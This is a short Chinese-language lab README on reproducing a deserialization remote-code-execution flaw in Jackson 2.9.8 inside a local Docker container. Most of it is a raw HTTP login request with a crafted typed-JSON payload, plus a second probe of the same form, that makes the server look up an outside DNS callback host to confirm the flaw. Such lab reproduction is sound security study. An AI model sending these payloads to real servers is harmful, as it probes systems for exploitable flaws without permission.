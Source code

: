 # lab

## jackson rce复现
jackson版本为2.9.8

```
docker build -t jackson_rce .
docker run -p 8090:8090 jackson_rce
```
访问
http://127.0.0.1:8090
登录包存在漏洞
```
POST /api/login HTTP/1.0
Host: 127.0.0.1:8090
Content-Type: application/json
Content-Length: 73

["java.net.InetAddress","wrr3lwmccgyqyg7lw9zvr8d8fzlq9gx5.b.huskpup.com"]
```

探测poc:
```
["java.net.InetAddress","wbbyrkxyiqthtcfm6va0l78syj4cs2gx6lw8mwb.b.huskpup.com"]
```
